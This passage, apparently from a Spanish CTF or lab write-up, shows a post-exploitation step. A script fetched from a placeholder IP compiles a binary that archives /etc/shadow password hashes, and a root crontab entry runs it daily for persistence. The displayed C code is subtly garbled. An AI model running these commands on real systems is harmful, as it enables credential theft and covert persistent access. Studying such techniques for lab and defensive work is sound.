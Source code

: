 ```bash
curl <IP>:8000/backup.sh
```

Y examinamos el script:

```bash
#!/usr/bin/bash

echo "#include <stdlib.h>" > backup.c
echo "int main(int argc, char *argv[]) {" >> backup.c
echo 'system("tar -czvf /var/backups/backup.tar.gz /etc/shadow");' >> backup.c
echo "return 0;" >> backup.c
echo "}" >> backup.c
gcc backup.c -o backup
```

Observamos que se trata de un código que genera un código en C y lo compila:

```C
#include <stdlib.h>
int main(int argc, char *argv[]) {
system("tar -czvf /var/backups/backup.tar.gz /etc/shadow
return 0
}
```

Este código a su vez recopila en un archivo comprimido 'tar' los contenidos de /etc/shadow. La idea por tanto parece clara, se trata ed un código que genera un ejecutable que guarda los hashes de contraseñas de los usuarios del sistema. Si este programa se ejecutase periódicamente en la máquina tendríamos una copia de seguridad de los hashes de contraseña del sistema que nos garantizaría una persistencia en el mismo.

Así, ejecutamos el script y llevamos el ejecutable a '/usr/bin':

```bash
chmod +x backup.sh; ./backup.sh; mv backup /usr/bin/backup
```

Ahora, programos la ejecución periódica de este binario a través de /etc/crontab:

```bash
0  2    * * *   root    /usr/bin/backup
```

Esta línea ejecutará el /usr/bin/backup todos los dias a la hora 2 minuto 0, es decir, todos los días a las 2:00.














